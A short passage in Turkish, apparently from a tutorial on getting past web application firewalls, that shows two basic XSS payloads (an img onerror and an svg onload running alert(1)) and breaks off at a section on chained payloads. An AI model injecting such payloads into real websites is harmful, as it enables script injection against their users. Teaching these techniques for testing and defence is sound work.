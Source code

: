 ### 1. Polyglot Payload Kullanımı:

Bazı payload'lar, hem HTML, hem JavaScript, hem de CSS bağlamlarında çalışabilen poliglotlar olabilir. Bu tür payload'lar, WAF'ın algılamasını zorlaştırabilir. Örneğin:

```html

"><img src=x onerror=alert(1)>
```
veya

```html

"><svg onload=alert(1)>
```
Bu payload'lar, HTML'nin içinde olduğu gibi çalışır ve JavaScript veya başka bir davranışı tetikleyebilir.

### 2. Zincirleme (Chained) Payload Kullanımı:

